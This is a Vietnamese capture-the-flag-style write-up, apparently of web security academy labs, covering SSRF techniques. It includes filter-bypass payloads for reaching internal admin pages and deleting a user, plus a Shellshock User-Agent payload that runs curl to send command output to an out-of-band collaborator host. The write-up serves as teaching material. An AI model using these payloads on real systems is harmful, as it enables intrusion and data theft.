

# web05

# SSRF

### **Basic SSRF against the local server**

Chức năng check stock sẽ gửi request đến một URL khác để lấy thông tin về stock



Ta có thể đổi URL thành `http://localhost/admin` để website hiển thị dữ liệu trang Admin


Gửi request với payload `http://localhost/admin/delete?username=carlos` để xóa user `carlos`

---

### **Basic SSRF against another back-end system**

Ta sẽ sử dụng chức năng check stock để tấn công SSRF đến các địa chỉ local khác.


Gửi request check stock vào Intruder để bruteforce địa chỉ ip


thấy địa chỉ `192.168.1.220` có phản hồi lại. Gửi vào repeater, thay thử path `/` thành `/admin` 


Gửi request với payload  `http://192.168.0.220:8080/admin/delete?username=carlos` để xóa user `carlos`

---

### **SSRF with blacklist-based input filter**

Chức năng check stock đã có filter `admin` và `127.0.0.1` để chống SSRF

---


Ta có thể bypass bằng `127.1` và `%2561dmin` (url encode 2 lần ký tự `a` trong `admin`)


Gửi request với payload `http://127.1/%2561dmin/delete?username=carlos` để xóa user `carlos`

---

### **SSRF with filter bypass via open redirection vulnerability**

Nhận thấy khó có thể bypass được SSRF filter ở param `stockApi` ở phần check stock, ta thử các chức năng khác. Khi ấn Next product, ta thấy website sẽ redirect dựa vào param `path`


Ta có thể thay đổi param đó để server gửi redirect về `/admin`. Tuy nhiên server sẽ chỉ trả request redirect về browser chứ không hiển thị website cuối cùng sau khi redirect


Ta có thể gửi payload này vào param `stockApi` ở chức năng check stock để có thể hiển thị nội dung website


Gửi request với payload `http://127.1/%2561dmin/delete?username=carlos` để xóa user `carlos`


---

### **SSRF with whitelist-based input filter**

Sau một hồi thử các loại bypass, ta đến được với payload sau


(nguồn: [A New Era of SSRF - Exploiting URL Parser in Trending Programming Languages!](https://www.blackhat.com/docs/us-17/thursday/us-17-Tsai-A-New-Era-Of-SSRF-Exploiting-URL-Parser-In-Trending-Programming-Languages.pdf))

Thử gửi payload thử, ta thấy server vẫn nhận host không phải `stock.weliketoshop.net`


Lý do có thể do paser hiển đoạn sau dấu `#` là `URL fragment`. Do đó ta có thể double URL encode, để paser không dịch thành `#` nhưng khi vào `requester` sẽ dịch là `#`. 


Gửi request với payload `http://127.0.0.1%2523@stock.weliketoshop.net/admin/delete?username=carlos` để xóa user `carlos`

---

### Blind SSRF with out-of-band detection

Dựa vào mô tả, ta biết website sẽ fetch URL ở  `Referer` header khi request đến trang sản phẩm


Thay `Referer` thành địa chỉ của Burp Collab của mình, gửi request đi và thấy có request đến Burp Colllab


---

### **Blind SSRF with Shellshock exploitation**

Dựa vào mô tả, ta biết website sẽ kết nối đến URL ở  `Referer` header khi request đến trang sản phẩm


Để kiểm tra, thay header `Referer` thành địa chỉ của Burp Collab của mình, gửi request đi và thấy có request HTTP đến Burp Colllab với `User-Agent` giống với `User-Agent` từ request của ta. Như vậy ta có thể thực hiện `Shellshock attack`.


Ta có thể scan ip của internal server bằng cách bruteforce vị trí `X`.  Output sẽ được gửi thông qua `Shellshock attack`.


Craft `Shellshock` payload

```bash
User-Agent: () { foo;}; curl "http://hpanp0p5r5akplmjoy649mgp3g98xx.burpcollaborator.net/?c=${whoami}"
```

Dùng `Intruder` để bruteforce ip


Nhận được request với param `c` là username